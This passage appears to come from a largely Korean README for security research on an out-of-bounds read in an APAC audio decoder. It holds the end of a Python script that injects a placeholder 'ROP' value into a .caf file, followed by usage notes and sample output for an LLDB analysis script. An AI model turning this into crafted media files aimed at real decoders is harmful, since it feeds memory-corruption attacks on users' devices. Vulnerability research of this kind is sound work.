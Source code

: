 ```python
    print(f"[+] Injecting payload at offset 0x{offset:x}: {payload.hex()}")
    data[offset:offset+len(payload)] = payload

    with open(output_file, 'wb') as f:
        f.write(data)
    print(f"[+] Written to: {output_file}")

if __name__ == '__main__':
    if len(sys.argv) < 3:
        print("Usage: python inject_rop_payload.py input.caf output.caf [offset hex]")
        sys.exit(1)

    infile = sys.argv[1]
    outfile = sys.argv[2]
    offset = int(sys.argv[3], 16) if len(sys.argv) > 3 else 0x100

    # Simulate 4-byte ROP overwrite
    rop = b'\xde\xad\xbe\xef'
    inject_payload(infile, outfile, offset, rop)


```

# LLDB APAC OOB 자동 분석 스크립트 사용법

---

## ✅ 기능 요약

- `DecodeAPACFrame()` 함수에 breakpoint 설정
- `mRemappingArray`와 `mTotalComponents` 크기 비교
- 불일치 시 Out-of-Bounds 접근 경고 자동 출력
- 프레임 포인터(`frame`) 기준으로 메모리 64바이트 읽어서 덤프

---

## ▶️ 사용법

```bash
lldb your_player_binary
(lldb) command script import apac_oob_analyzer.py
(lldb) run output_apac_patch.mp4
```

---

## 🧠 실행 시 출력 예

```
[>] mRemappingArray size: 2
[>] mTotalComponents: 5
[!] MISMATCH detected: RemappingArray vs TotalComponents
  [=] remap[0] = 0
  [=] remap[1] = 1
  [!] remap[2] = <out-of-bounds access>
  [!] remap[3] = <out-of-bounds access>
  [!] remap[4] = <out-of-bounds access>
[!] Potential OOB access will occur when accessing remap array beyond bounds.
[>] Frame buffer sample at 0x12345678:
aa bb cc dd ...
```

---